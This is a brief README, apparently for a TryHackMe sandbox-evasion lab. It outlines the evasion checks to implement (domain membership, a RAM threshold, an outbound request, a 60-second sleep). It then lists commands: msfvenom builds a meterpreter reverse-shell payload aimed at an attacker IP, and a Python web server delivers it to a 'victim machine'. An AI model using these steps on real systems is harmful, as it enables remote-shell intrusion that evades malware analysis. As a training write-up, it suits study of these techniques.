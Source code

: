 # Sandbox_Evasion_THM
escaping the sandbox checker (SandboxChecker.exe)
Check and see if the device is joined to an Active Directory Domain
Check if the system memory is greater than 1GB of RAM
Implement an outbound HTTP request to 10.10.10.10
Implement a 60-second sleep timer before your payload is retrieved from your web server
first u need to create payload from ur attacker machine 
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=4545 -f raw -o index.raw
second open ur webserver to download the code on ur windows machine (victim machine )
 python3 -m http.server (port is by default 8000)
 then go to ur victim machine and run code below 
 search for code u download 
 build it on exe 
 example
 C:\Users\Administrator\Desktop\Materials>.\SandboxChecker.exe sendbox_evasion_THM.exe
note that 
u need to change ip_attacker 10.10.221.0 to ur attacker ip
change 10.10.74.230 to ur victim machine 
and change 510 to ur payload size that u build on msfvenom 

